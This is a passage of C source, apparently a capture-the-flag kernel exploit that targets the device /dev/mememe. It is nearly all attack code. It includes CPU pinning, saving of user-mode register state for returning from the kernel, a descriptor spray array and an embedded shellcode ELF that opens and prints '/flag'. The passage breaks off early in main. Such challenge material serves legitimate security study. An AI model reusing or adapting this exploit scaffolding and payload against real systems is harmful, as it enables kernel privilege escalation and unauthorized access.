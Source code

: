 ```c
void store(unsigned offset) {
  tmp[idx++] = 12;
  tmp[idx++] = 4;
  tmp[idx++] = offset % 0x100;
  tmp[idx++] = (offset / 0x100) % 0x100;
  tmp[idx++] = (offset / 0x10000) % 0x100;
  tmp[idx++] = (offset / 0x1000000) % 0x100;

}
void bind_core(){
  // bind to core 0 using sched_setaffinity
  cpu_set_t mask;
  CPU_ZERO(&mask);
  CPU_SET(0, &mask);
  if (sched_setaffinity(0, sizeof(mask), &mask) < 0
      && errno != ENOSYS) {
    perror("sched_setaffinity");
    exit(1);
  }
  printf("Bound to core 0\n");
}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status(void)
{
    asm volatile ("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
unsigned char shellcode[] = {
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
    0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x48, 0xbf, 0x2f, 0x66, 0x6c, 0x61, 0x67, 0x00, 0x00, 0x00, 0x57, 0x48,
    0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0x31, 0xd2, 0x48, 0x83, 0xc0, 0x02,
    0x0f, 0x05, 0x89, 0xc7, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc2, 0x00, 0x01,
    0x00, 0x00, 0x48, 0x31, 0xc0, 0x0f, 0x05, 0xb8, 0x01, 0x00, 0x00, 0x00,
    0xbf, 0x01, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x00,
};
// find the file operations at 0xFFFFFFFF82C44D40
int busybox_fd[SPRAY_NUM];
int main(){
    bind_core();
    save_status();
    fd = open("/dev/mememe", O_RDWR);
    if(fd < 0){
        printf("open /dev/mememe failed\n");
        return -1;
    }
    // memset(tmp, 0, sizeof(tmp));
    // idx = 0;
```